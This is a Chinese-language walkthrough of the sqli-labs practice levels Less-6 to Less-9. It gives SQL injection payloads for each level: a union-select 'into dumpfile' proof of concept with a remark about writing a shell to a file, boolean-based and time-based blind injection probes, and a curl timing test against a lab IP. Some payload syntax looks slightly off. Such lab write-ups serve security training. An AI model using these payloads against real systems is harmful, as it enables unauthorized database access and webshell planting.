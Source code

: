 
## Less-6
将Less-5单引号变为双引号即可通过


## Less-7
经过测试id为字符型，单引号包裹
括号测试：
```
id=1')
id=1'))
id=1')))
```
确定使用的是双括号
结合延伸拓展中的注入文件信息，给出poc
```poc
id=1')) union select 1,2,3 into dumpfile 'result.txt'
```
exp的利用方式，可以将shell写入文件中，之后访问！


## Less-8
id为单引号，字符型数据
通过测试知道这是一道布尔型注入题
poc
```
id=1' (select ascii(substr(database(),1,1)))>100 --+ ==> success
id=1' (select ascii(substr(database(),1,1)))>110 --+ ==> success
id=1' (select ascii(substr(database(),1,1)))>120 --+ ==> fail
id=1' (select ascii(substr(database(),1,1)))=115 --+ ==> success
...
```
可写自动化脚本进行测试，并用二分法提高测试成功的效率。


## Less-9

无论怎么更改注入语句，页面都不会发生改变，利用基于时间的注入进行测试

> 基于时间的注入方式
```SQL
sql server: waitfor delay '0:0:9' --
mysql: sleep(9) --
mysql: benchmark(exe_times, exe) ==> benchmark(100000,md5(1)) --
oracle: pg_sleep(9) --
```

poc
```SQL
id=1' and sleep(3) --+
id=1' and select if((select database()='security'), sleep(10), NULL)) --
id=1' and select if(substr(database(),1,1)='s',sleep(10),NULL) --
id=1' and (select if(ascii(substr((select table_name from information_schema.tables
where table_schema=database() limit 0,1),1,1))=111,sleep(10),NULL))--+
```
可以使用time + curl(测试参数需要进行URL编码)命令做简单测试
```shell
time curl -o /dev/null -s http://192.168.1.107/sqli-labs/Less-9/?id=1%27%20union%20select%201,2,sleep%286%29%20--+
```
结果
```
real	0m6.009s
user	0m0.004s
sys	    0m0.000s
```
